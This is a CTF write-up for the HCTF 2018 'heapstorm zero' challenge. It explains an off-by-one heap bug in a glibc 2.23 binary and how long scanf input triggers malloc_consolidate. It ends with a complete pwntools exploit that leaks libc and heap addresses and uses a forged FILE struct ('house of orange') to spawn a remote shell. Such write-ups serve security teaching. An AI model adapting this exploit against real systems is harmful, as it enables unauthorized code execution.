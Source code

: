 ```yaml
---
layout: post
title: Hctf 2018 heapstorm zero
date: "2018-11-10"
---
```


Hi, I am Ne0. This weekend my team `Eur3kA` played `HCTF 2018` and won the champion for a second time! I was really proud of my teammates(We solved all the binary challenges!). As this challenge is solved by only 3 teams, I decided to write a writeup for it.

### Program

The challenge can be download in my [Github repo](https://github.com/Changochen/CTF) 

The logic of this program is evident. You can `allocate`, `view` and `delete` chunks that are less or equal than size `0x40`.
```bash
===== (fake) HEAP STORM ZERO =====

1. Allocate
2. View
3. Delete
4. Exit
Choice:
```
The version of the `libc` is `2.23`

### Vulnerability

The only bug `off by one` is in `readn` function.

### Solution

It seems impossible to solve it at the first glance, because we have only `fastbin chunks`, and `off by one` just change the size to `0` , which is never a valid size. 

But Wait. Why does it use `scanf` and a self-written `getint` function to get an integer from `stdin`? Well , it turns out that the `scanf` is the key to solve this challenge!

When you input a very long string to `scanf` , it will malloc a buffer to handle it. For example, if I input `'A'*0x500` when it is calling `scanf("%d",&choice)` ,it will call `malloc(0x800)`. Well, this is a `largebin chunk` and it will trigger `malloc_consolidate`!

So the exploitation includes the following steps:
1.  make lots of freed `fastbin chunks` ,
2. trigger `malloc_consolidate` to make larger `unsortedbin` chunks `A`. 
3. use `off by one` to shrink the size of the freed `unsortebin chunk`, this will cause its next chunk `B` fail to update its `prev size`
4. Try to merge the `B`. `B` should be a `fastbin chunk`. To merge it, we just need to free it and trigger `malloc_consolidate` again
5. Now you have `overlapped chunks`. Leak and exploit ! In my exploit script, I use `house of orange` to get a shell.

### Exploit
```python
from pwn import *

local=0
pc='./heapstorm_zero'
remote_addr=['150.109.44.250',20001]
aslr=False
context.log_level=True

context.terminal=['tmux','split','-h']
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p,'c')
else:
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    sla("Choice:",str(idx))

def add(size,content):
    choice(1)
    sla(":",str(size))
    sa(":",content)

def view(idx):
    choice(2)
    sla(":",str(idx))

def free(idx):
    choice(3)
    sla(":",str(idx))

if __name__ == '__main__':
    sla("token:","DN2WQ9iOvvAGyRxDC4KweQ2L9hAlhr6j")
    # Produce some freed chunks
    add(0x18,"AAA\n")
    for i in range(24):
        add(0x38,"A"*8+str(i)+"\n")
    free(0)
    free(4)
    free(5)
    free(6)
    free(7)
    free(8)
    free(9)

    # Trigger malloc consolidate
    sla("Choice:","1"*0x500)

    #  shrink the size
    add(0x38,"B"*0x30+p64(0x120))
    add(0x38,"C"*0x30+p32(0x40)+'\n')
    add(0x38,"P"*0x30+'\n')
    free(4)

    # merge it
    sla("Choice:","1"*0x500)
    free(10)
    sla("Choice:","1"*0x500)

    #Leak address
    add(0x38,"DDD\n")
    add(0x38,"KKK\n")
    add(0x38,"EEE\n")
    view(5)
    ru("Content: ")
    libc_addr=raddr(6)-0x3c4b78
    libc.address=libc_addr
    lg("libc addr",libc_addr)
    add(0x38,"GGG\n")
    free(10)
    free(11)
    free(5)
    view(8)
    ru("Content: ")
    heap=raddr(6)-0x2a0
    lg("heap addr",heap)

    # Fake a file struct to use house of orange
    for i in range(6):
        free(23-i)
    fake_struct="/bin/sh\x00"+p64(0x61)+p64(0)+p64(heap+0x430)+p64(0)+p64(1)
    add(0x38,fake_struct+'\n')
    free(17)
    add(0x38,p64(0)+p64(0x31)+p64(0)+p64(libc.symbols['_IO_list_all']-0x10)+'\n')
    add(0x38,'\x00'*0x30+'\n')
    add(0x38,'\x00'*0x30+'\n')
    add(0x38,p64(0)*3+p64(heap+0x2b0)+'\n')

    # Faking vtable. Well I wrote this scipt in 30 mins, so it sucks
    add(0x38,p64(libc.symbols['system'])*6+'\n')
    add(0x38,p64(libc.symbols['system'])*6+'\n')
    add(0x38,p64(libc.symbols['system'])*6+'\n')
    add(0x38,p64(libc.symbols['system'])*6+'\n')
    add(0x28,"DDD\n")
    add(0x28,p64(0)+p64(0x41)+"\n")
    free(6)
    add(0x38,p64(0)*3+p64(0xa1)+p64(0)+p64(heap+0x470)+'\n')
    add(0x28,'aa'+'\n')

    # you need to allocate one more chunk to trigger house of orange
    p.interactive()
```

### Last
Well, if you like this writeup, please follow me on [Github](https://github.com/Changochen). And if you have any better solutions , please share it with me!

